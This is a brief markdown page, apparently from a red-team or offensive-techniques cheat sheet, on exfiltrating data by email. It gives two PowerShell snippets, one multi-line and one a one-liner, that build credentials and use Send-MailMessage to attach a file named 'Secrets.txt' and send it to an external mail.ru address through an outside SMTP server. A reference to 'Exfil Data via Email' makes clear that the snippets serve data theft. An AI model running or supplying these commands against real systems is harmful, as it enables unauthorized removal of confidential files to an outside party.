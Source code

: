 # SMTP

## 01 - Powershell

### 1.1 - Send-MailMessage

```powershell
$username = 'bob@mail.ru'
$password = ConvertTo-SecureString -String "<password>" -AsPlainText -Force
$credentials = New-Object -TypeName  System.Management.Automation.PSCredential -ArgumentList $username, $password
Send-MailMessage -From 'Bob <bob.baronov@mail.ru>' -To 'Alice <alice@mail.ru>' -Subject 'From powershell' -Body 'See  attachments.' -Attachments 'C:\Tools\files\Secrets.txt' -SmtpServer 'box.mail.ru' -Credential $credentials
```

Here's an example

```powershell
$username = 'alice@mail.ru'; $password = ConvertTo-SecureString -String "<password>" -AsPlainText -Force; $credentials = New-Object -TypeName  System.Management.Automation.PSCredential -ArgumentList $username, $password;  Send-MailMessage -From 'bob <bob@mail.ru>' -To 'Alice  <alice@mail.ru>' -Subject 'From powershell' -Body 'See  attachments.' -Attachments 'C:\Tools\files\Secrets.txt' -SmtpServer 'box.mail.ru' -Credential $credentials
```

---
## References

- [Exfil Data via Email](https://docs.anarchy-farm.com/exfil-data-via-e-mail)